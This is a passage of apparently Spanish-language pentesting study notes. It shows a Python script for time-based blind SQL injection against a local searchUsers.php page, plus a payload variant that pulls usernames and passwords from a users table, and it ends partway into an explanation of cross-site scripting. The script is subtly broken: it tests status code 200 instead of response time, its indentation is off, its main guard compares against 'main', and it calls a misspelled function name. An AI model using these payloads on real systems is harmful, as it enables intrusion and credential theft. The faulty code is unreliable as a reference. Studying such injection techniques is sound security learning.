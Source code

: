     def def_handler(sig, frame):
    	print("\n\n[!]Saliendo...\n")
    	sys.exit(1)
    
    \#Ctrl_C
    signal.signal(signal.SIGINT, def_handler)
    
    \#Variables Globales
    main_url = "http://localhost/searchUsers.php"
    character = string.printable
    
    def makeSQLi():
    	p1 = log.progress("Fuerza bruta")
    	p1.status("Iniciando fuerza bruta")
    	
    	time.sleep(2)
    	p2 = log.progress("Datos Extraidos")
    
    	extracted_info = ""
    
    	for position in range(1, 50):
    		for character in range(33, 126):
    			sqli_url = main_url + "?id=1 and if(ascii(substr(database(),%d,1))=%d,sleep(0.5),1)" % (position, character)
    			
    			p1.status(sqli_url)
    	
    			r = requests.get(sqli_url)
    			
    			if r.status_code == 200:
    			extracted_info += chr(character)
    			p2.status(extracted_info)	
    			break
    
    if __name__ == 'main':
    	makeSQLI()
    ```
    
    ```SQL
    sqli_url = main_url + "?id=1 and if(ascii(substr((select group_concat(userna,0x3a,password) from users),%d,1))=%d,sleep(0.5),1)" % (position, character)
    ```
    

## Cross-Site Scripting (XSS)

An XSS vulnerability is a security flaw that allows an attacker to execute malicious code in a webpage of a user without it knowing or consent. This allows to steal personal information, like, usernames, passwords and other confidential data.

In essence, this attack implies to inject malicious code in a vulnerable webpage, that later, will execute in the browser that the user accesses the page.

This malicious code could be anything, from scripts that redirects the user to another page to keyloggers or form data extractors to then send the data to a remote server.

  

There are various XSS types:
